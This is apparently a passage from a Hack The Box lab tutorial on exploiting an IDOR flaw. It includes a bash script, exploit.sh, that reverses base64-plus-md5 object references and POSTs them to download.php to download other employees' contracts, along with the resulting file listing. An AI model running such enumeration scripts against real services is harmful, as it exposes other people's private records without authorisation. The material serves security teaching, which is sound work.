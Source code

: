We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:

&#x20; Bypassing Encoded References

```shell-session
root@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:

Code: bash

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:

&#x20; Bypassing Encoded References

```shell-session
root@htb[/htb]$ bash ./exploit.sh
root@htb[/htb]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.

